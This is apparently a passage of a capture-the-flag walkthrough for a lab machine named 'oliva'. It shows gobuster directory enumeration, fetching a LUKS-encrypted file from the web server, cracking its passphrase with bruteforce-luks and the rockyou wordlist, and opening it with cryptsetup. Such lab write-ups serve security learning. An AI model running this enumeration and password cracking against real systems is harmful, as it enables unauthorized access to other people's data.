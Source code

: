 ```
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 69]
/index.html           (Status: 200) [Size: 615]

[...]
```

`curl http://192.168.56.123/index.php -s`:
```
Hi oliva,
Here the pass to obtain root:


<a href="oliva">CLICK!</a> ←
```

`wget http://192.168.56.123/oliva`:
```
--2024-09-24 09:52:56--  http://192.168.56.123/oliva
Connecting to 192.168.56.123:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20000000 (19M) [application/octet-stream]
Saving to: ‘oliva’

oliva                                           100%[====================================================================================================>]  19.07M  15.6MB/s    in 1.2s    

2024-09-24 09:52:58 (15.6 MB/s) - ‘oliva’ saved [20000000/20000000] ←
```

`file ./oliva`:
```  
./oliva: LUKS encrypted file, ver 2, header size 16384, ID 3, algo sha256, salt 0x14fa423af24634e8..., UUID: 9a391896-2dd5-4f2c-84cf-1ba6e4e0577e, crc 0x6118d2d9b595355f..., at 0x1000 {"keyslots":{"0":{"type":"luks2","key_size":64,"af":{"type":"luks1","stripes":4000,"hash":"sha256"},"area":{"type":"raw","offse
```

`bruteforce-luks -f /usr/share/wordlists/rockyou.txt -t 3 ./oliva`:
```
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 970                                        
Tried passwords per second: 1.695804
Last tried password: imissyou

Password found: bebita ←
```

`cryptsetup open ./oliva --type luks oliva`:
```
Enter passphrase for ./oliva: ←
```
